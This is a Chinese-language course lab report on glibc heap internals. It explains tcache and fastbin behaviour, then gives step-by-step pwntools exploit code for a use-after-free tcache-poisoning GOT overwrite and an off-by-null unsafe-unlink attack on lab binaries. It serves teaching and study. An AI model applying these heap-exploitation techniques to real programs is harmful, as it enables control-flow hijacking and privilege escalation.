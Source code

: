 ```yaml
---
counter: True
comment: True
---
```


# 基础堆知识、漏洞与利用

!!! abstract
    软件安全 lab2 实验报告（2023.06.03 ~ 2023.06.19）

    !!! warning "仅供学习参考，请勿抄袭"

## 实验内容
- Challenge 1. test（40 分）
    - 在实验报告中提供截图和攻击代码证明完成如下目标
    - 针对要求的两个情形（开启 tcache 以及未开启 tcache），针对不同 checkpoint 进行截图调试以及描述（20 分）
    - 回答实验内容中提出的问题（20 分）
        - 开启 tcache 和不开启 tcache 初始堆状态有什么区别
        - 开启 tcache 和不开启 tcache 在 checkpoint-3 时 free 后存在的区别
        - checkpoint-4 时拿到的 chunk 是之前哪条语句释放的，有无 tcache 现象是否不一样?
        - checkpoint-7 时被释放的 a[0], a[1] 是怎样组织的，有无 tcache 现象是否不一样?
- Challenge 2. uaf（60 分）
    - 在实验报告中提供截图和攻击代码证明完成如下目标
    - 成功按步骤完成后门调用，步骤分（20+20+10+10分）
- Bonus: unsafe unlink（40 分）
    - 在实验报告中提供截图和攻击代码证明完成如下目标
    - 成功按步骤完成全局变量修改和 shell 弹出，步骤分（10+10+10+10分）

## Challenge: test

### 开启 tcache

checkpoint 0，初始状态，分配了两个 chunk（最顶上有一个初始 0x251 的 chunk）：

<div style="text-align: center; margin-top: 15px;">
<img src="/assets/images/sec/software/lab2/tcache/1.png" width="80%" style="margin: 0 auto;">
</div>

checkpoint 1 2 都是 malloc，没什么大问题，不放截图了。checkpoint 3，free 了四个 chunk，进入了 tcache：

<div style="text-align: center; margin-top: 15px;">
<img src="/assets/images/sec/software/lab2/tcache/3.png" width="80%" style="margin: 0 auto;">
</div>

<div style="page-break-before: always"></div>

<div style="text-align: center; margin-top: 15px;">
<img src="/assets/images/sec/software/lab2/tcache/4.png" width="80%" style="margin: 0 auto;">
</div>

checkpoint 4，重新分配了一个 0x10 大小的 chunk，可以发现这个 chunk 是从 tcachebins 取出来的：

<div style="text-align: center; margin-top: 15px;">
<img src="/assets/images/sec/software/lab2/tcache/5.png" width="80%" style="margin: 0 auto;">
</div>

checkpoint 5，free 了两个 chunk 进入 tcache。checkpoint 6，malloc 三个 0x500 的 chunk。checkpoint 7，free 了前两个，可以发现这两个进入了 unsorted bin，并且被合并了：

<div style="text-align: center; margin-top: 15px;">
<img src="/assets/images/sec/software/lab2/tcache/8.png" width="80%" style="margin: 0 auto;">
</div>

### 未开启 tcache
checkpoint 0，初始状态（除了 top chunk 以外只有分配的两个 chunk）：

<div style="text-align: center; margin-top: 15px;">
<img src="/assets/images/sec/software/lab2/notcache/1.png" width="80%" style="margin: 0 auto;">
</div>

checkpoint 3，free 了四个 chunk，进入了 fast bin：

<div style="text-align: center; margin-top: 15px;">
<img src="/assets/images/sec/software/lab2/notcache/2.png" width="80%" style="margin: 0 auto;">
</div>

checkpoint 4 从 fast bin 中取一个 chunk，checkpoint 5 又 free 了两个 chunk 进入 fast bin：

<div style="text-align: center; margin-top: 15px;">
<img src="/assets/images/sec/software/lab2/notcache/4.png" width="80%" style="margin: 0 auto;">
</div>

之后有一句 free(protect)，这里变化较大，由于 protect 是最新一个 chunk，紧接着 top chunk，所以它被 free 了之后连同着附近 unused 的 chunk 一起合并到了 top chunk 中，最外面的几个 fastbin 堆块也合并到了一起：

<div style="text-align: center; margin-top: 15px;">
<img src="/assets/images/sec/software/lab2/notcache/5.png" width="80%" style="margin: 0 auto;">
</div>

接着到达 checkpoint 6，malloc 三个 chunk。checkpoint 7，同样释放到 unsorted bin，然后被合并：

<div style="text-align: center; margin-top: 15px;">
<img src="/assets/images/sec/software/lab2/notcache/7.png" width="80%" style="margin: 0 auto;">
</div>

### 问题回答
- 开启 tcache 和不开启 tcache 初始堆状态有什么区别
    - 开启 tcache 时，初始堆最外侧会有一个 0x251 大小的 chunk
    - 不开启 tcache 时，初始堆只有 top chunk
- 开启 tcache 和不开启 tcache 在 checkpoint-3 时 free 后存在的区别
    - 开启 tcache 时，free 的 chunk 会进入 tcache
    - 不开启 tcache 时，free 的 chunk 会进入 fast bin
- checkpoint-4 时拿到的 chunk 是之前哪条语句释放的，有无 tcache 现象是否不一样?
    - 都是之前 free(b[1]) 释放的
    - 有无 tcache 现象一样，只是一个从 tcache 取这个 chunk，一个从 fast bin 取这个 chunk
- checkpoint-7 时被释放的 a[0], a[1] 是怎样组织的，有无 tcache 现象是否不一样?
    - 都是被释放到 unsorted bin，然后被合并到一起
    - 有无 tcache 现象完全一样

## Challenge: uaf
目的是实现任意地址写，从而劫持 exit 的 GOT 表，使之跳转到 backdoor 位置。

分析程序，add 负责调用 malloc 并将地址记录在 array 中，edit 负责修改堆块中内容，finish 负责调用 free，而 free 的时候不会将 array 中记录的地址置 NULL，所以存在 UAF 漏洞。

因此可以分配三个 chunk (top->C->B->A)，然后释放前两个，使之进入 tcache bin (tcache->B->A)，接下来利用 UAF 修改 B 中的 fd，使之指向 exit 的 GOT。然后 malloc 会取回 B，并让 tcache 指向 B 的 fd，即我们要写入的地址。这样接下来再 malloc 就会将堆分配到我们要的地址上，将 backdoor 地址写入堆内容即可。

交互用函数：

```python
def add(time, content):
    p.sendlineafter(b"chocie:\n", b"1")
    p.sendlineafter(b"time\n", time)
    p.sendlineafter(b"content\n", content)

def edit(idx, time, content):
    p.sendlineafter(b"chocie:\n", b"3")
    p.sendlineafter(b"index\n", str(idx).encode())
    p.sendlineafter(b"time\n", time)
    p.sendlineafter(b"content\n", content)

def free(idx):
    p.sendlineafter(b"chocie:\n", b"4")
    p.sendlineafter(b"index\n", str(idx).encode())
```

- 布局堆：
    ```python
    add(b"111", b"AAA")
    add(b"222", b"BBB")
    add(b"333", b"CCC")

    free(1)
    free(2) # tcache -> BBB -> AAA
    ```
- UAF 修改 BBB 的 fd：
    ```python
    edit(2, p64(elf.got["exit"]), b"DDD")
    ```
- 分配出 BBB，使 tcache 指向 BBB 的 fd：
    ```python
    add(b"444", b"EEE") # tcache -> exit@GOT
    ```
- 分配到任意地址，写入 backdoor 地址：
    ```python
    add(p64(elf.symbols["backdoor"]), b"FFF")
    ```
- 退出程序，进入 backdoor：
    ```python
    p.sendlineafter(b"chocie:\n", b"5")
    p.interactive()
    ```

远程攻击截图：

![](/assets/images/sec/software/lab2/uaf.png)

## Bonus: unsafe unlink
需要利用 off-by-null 漏洞篡改 chunk metadata，使得在 unlink 的时候修改任意地址。

具体一点就是分配三个堆（top->C->B->A），因为 A 在低地址，所以可以正常覆盖到 B 的 prev_size 部分，因为存在 off-by-null 漏洞，所以 B 中 size 的末字节可以被覆盖为 0，导致 glibc 认为此时 A 并未在使用。所以 free B 的时候会合并 chunk，此时触发 unlink A。unlink 代码：

```c 
#define unlink(AV, P, BK, FD) {                                           \
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))  \
      malloc_printerr ("corrupted size vs. prev_size");                   \
    FD = P->fd;                                                           \
    BK = P->bk;                                                           \
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                 \
      malloc_printerr ("corrupted double-linked list");                   \
    else {                                                                \
        FD->bk = BK;                                                      \
        BK->fd = FD;                                                      \
        /* ... */                                                         \
      }                                                                   \
}
```

利用其中的 FD->bk = BK、BK->fd = FD，此时 P 即为 A 偏移 0x10 的 fake chunk，其 fd bk 我们都可控。而 ->bk 和 ->fd 相当于向后偏移 0x10 和 0x18 字节，所以理论上就可以实现任意地址写。

根据实验指导以及上面的代码，可以发现有两个 glibc 的检测需要绕过：

- chunksize(P) != prev_size (next_chunk(P))
    - 只需要同时布局好 fake chunk 的 chunksize 即可
- FD->bk != P || BK->fd != P
    - 需要使得 FD->bk == BK->fd == P，即能够指回来
    - 可以利用 array[0]，它指向的位置就是 chunk 0 的内容，即 fake chunk 开头
    - 具体见下图

![](/assets/images/sec/software/lab2/unlink_heap.png)

根据左图的红色部分填写 chunk 0 内容即可伪造 fake chunk。其 fd 和 bk 的设置也在图中，根据蓝色箭头，可以发现 P->bk->fd P->fd->bk 都可以指回 P，以绕过检测。

然后在 unlink 时，FD->bk = BK 会被覆盖，有用的是 BK->fd = FD 一句，效果见上右图。unlink 之后 array[0] 的位置写入了 FD。于是修改 array[0] 指向的内容即修改栈上 FD 开始的内容，可以再次覆盖到 array[0]，使之指向 privilegeToken 位置。之后再次修改 array[0] 内容即可修改 privilegeToken。

交互用函数：

```python
def add(time, content):
    p.sendlineafter(b"chocie:\n", b"1")
    p.sendlineafter(b"time\n", time)
    p.sendlineafter(b"content\n", content)

def edit(idx, time, content):
    p.sendlineafter(b"chocie:\n", b"3")
    p.sendlineafter(b"index\n", str(idx).encode())
    p.sendlineafter(b"time\n", time)
    p.sendlineafter(b"content\n", content)

def free(idx):
    p.sendlineafter(b"chocie:\n", b"4")
    p.sendlineafter(b"index\n", str(idx).encode())
```

- 分配三个 chunk (top->C->B->A)：
    ```python
    add(b"111", b"AAA")
    add(b"222", b"BBB")
    add(b"333", b"CCC")
    ```
- 修改最顶层的堆 A，off-by-null 溢出到 B 的 PREV_INUSE，构造一个已经 free 的 fake chunk：
    ```python
    edit(
        1,
        p64(0) + p64(0x6f0) +
        p64(elf.symbols["array"] - 24) + p64(elf.symbols["array"] - 16)[:-1],
        b"\x00" * 0x6d0 + p64(0x6f0)
    )
    ```
    - 注意所有读取都存在 off-by-null 漏洞，所以刚好卡到大小的要截断一个字节
- free B，触发 unlink A：
    ```python
    free(2)
    ```
- 在栈上两次修改 array[0]，写入 privilegeToken：
    ```python
    edit(1, p64(0) * 3 + p64(elf.symbols["privilegeToken"])[:-1], b"\x00")
    edit(1, p64(<数据删除>), "\x00")
    ```

远程攻击截图：

![](/assets/images/sec/software/lab2/bonus.png)
